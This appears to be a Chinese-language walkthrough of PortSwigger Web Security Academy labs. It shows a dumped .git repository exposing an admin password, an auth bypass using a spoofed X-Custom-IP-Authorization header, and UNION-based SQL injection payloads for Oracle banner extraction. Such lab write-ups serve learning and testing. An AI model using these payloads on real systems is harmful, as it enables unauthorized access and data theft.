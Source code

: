 ```
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ cat *.php
<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ 
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ 
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ 
cqq@cqq:~/repos/githacker/ac811fd51f384810c034064700c800c6.web-security-academy.net$ cat admin.conf
ADMIN_PASSWORD=6mm8cske6vswxw0z1ejk
```
好像使用这个工具也可以，不过没试：
https://github.com/wangyihang/githacker


### 特殊请求头的认证绕过
开始一直没找到这个特殊的请求头在什么地方，后来通过burp的scanner扫到了开启了TRACE方法，在TRACE方法中泄露了这个特殊的请求头，加上这个
```
X-Custom-IP-Authorization: 127.0.0.1
```

访问/admin 即可成功。

## SQLi

payload是：
```
/filter?category=Gifts'+UNION+SELECT+§NULL§,§NULL§,§NULL§--+
```
然后用Sniper进行Intruder爆破，只用那个hint中的字符串作为字典。即可爆出非500响应（200）的请求。



### Oracle SQLi:


测试发现：
```
/filter?category=Accessories'+UNION+SELECT+NULL,(SELECT+banner+FROM+v$version+where+rownum=1)+from+DUAL--+

/filter?category=Accessories'+UNION+SELECT+NULL,(SELECT+banner+FROM+v$version+where+banner+like'Oracle%')+from+DUAL--+
```
都可以，但是发现没有题中指定的字符串，于是自己拼接，用concat。但是注意拼接的时候一定要from DUAL。还有就是SELECT语句一定要用()包裹起来。


```
SELECT NULL,(SELECT concat('a','b') from DUAL) from DUAL
SELECT NULL,(SELECT concat('a',(SELECT+banner+FROM+v$version+where+banner+like'Oracle%')) from DUAL) from DUAL
```


最终payload：
```
/filter?category=Accessories'+UNION+SELECT+NULL,(SELECT+concat((SELECT+banner+FROM+v$version+where+banner+like'Oracle%'),',%20PL/SQL+Release+11.2.0.2.0+-+Production,+CORE%0911.2.0.2.0%09Production,+TNS+for+Linux%3a+Version+11.2.0.2.0+-+Production,+NLSRTL+Version+11.2.0.2.0+-+Production')+from+DUAL)+from+DUAL--+

```
看了答案发现实际上只需要：
```
/filter?category=Accessories'+UNION+SELECT+NULL,BANNER+FROM+v$version--+
```
之前我忘了以为最外面只能from DUAL...
